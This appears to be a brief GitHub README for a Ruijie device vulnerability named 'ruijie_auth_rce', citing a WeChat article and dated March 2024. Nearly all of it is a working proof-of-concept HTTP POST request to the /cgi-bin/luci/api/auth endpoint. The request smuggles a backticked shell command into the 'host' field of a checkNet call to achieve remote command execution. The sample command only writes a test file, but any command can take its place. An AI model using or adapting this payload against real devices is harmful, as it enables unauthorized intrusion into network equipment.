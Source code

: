 # ruijie_auth_rce

from： https://mp.weixin.qq.com/s/TFxN7wCWsWOMTECxhgIsJw
2024.3.11 @2

```
POST /cgi-bin/luci/api/auth HTTP/1.1
Host: 127.0.0.1
Content-Type: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

{"method":"checkNet","params":{"host":"`echo Hello World!>test.txt`"}}
```
